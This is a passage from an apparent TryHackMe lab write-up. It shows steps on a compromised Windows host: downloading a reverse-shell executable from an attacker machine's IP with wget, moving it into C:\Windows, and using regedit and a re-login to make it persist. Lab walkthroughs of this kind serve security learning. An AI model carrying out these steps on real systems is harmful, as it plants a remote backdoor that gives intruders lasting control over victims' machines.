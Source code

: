 ```PowerShell
C:\Users\Administrator>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```
6. `wget http://<ATTACK MACHINE IP>:8000/<PAYLOAD NAME>.exe -O <PAYLOAD NAME>.exe` from the compromised Windows machine
```PowerShell
PS C:\Users\Administrator> wget http://10.10.157.221:8000/revshell.exe -O revshell.exe
```
7. `dir` from the compromised Windows machine
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/7/2023   5:31 PM           7168 revshell.exe
```
8. `move <PAYLOAD NAME>.exe <DESTINATION PATH>`
```PowerShell
```PowerShell
PS C:\Users\Administrator>move revshell.exe C:\Windows
        1 file(s) moved.
```
9. `regedit`
```PowerShell
C:\Users\Administrator>regedit
```

![]()

![]()

![]()

10. Sign out and log back in

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Sign%20Out.png)
